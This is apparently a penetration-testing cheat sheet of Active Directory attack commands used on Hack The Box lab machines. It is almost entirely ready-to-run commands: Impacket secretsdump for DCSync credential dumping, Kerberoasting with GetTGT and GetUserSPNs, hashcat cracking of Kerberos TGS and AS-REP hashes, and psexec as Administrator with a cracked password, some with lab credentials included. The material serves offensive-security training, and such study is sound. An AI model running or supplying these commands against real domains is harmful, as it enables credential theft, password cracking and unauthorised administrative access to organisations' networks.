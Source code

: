 Use secrets dump when user has DCSync in BloodHound
```
impacket-secretsdump egotistical-bank.local/svc_loanmgr@10.10.10.175
```
### Kerberoasting 

#### impacket-getTGT
Get TGT using svc account creds
```
impacket-getTGT active.htb/svc_tgs:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100
```

Export the .ccache file 
```
export KRB5CCNAME=svc_tgs.ccache
```

#### impacket-GetUserSPNs
```
impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```

#### crack krb5 tgs hash
```
hashcat -m 13100 GetUserSPNs.out /usr/share/wordlists/rockyou.txt 
```

#### impacket-psexec
psexec in as administrator with cracked password
```
impacket-psexec active.htb/Administrator:Ticketmaster1968@active.htb
```

#### impacket-ticketConverter
```
impacket-ticketConverter ticket.kirbi ticket.ccache 
```
### AS-REP Roasting
Find users with Kerberos Pre-Authentication disabled 
#### impacket-GetNPUsers
```
impacket-GetNPUsers -dc-ip 10.10.10.161 -request 'htb.local/'
```

Knowing or guessing username 
```
impacket-GetNPUsers -dc-ip 10.10.10.175 -request 'egotistical-bank.local/FSmith'
```
#### Crack the AS-REP hash with hashcat
```
hashcat -m 18200 svc.hash /usr/share/wordlists/rockyou.txt 
```

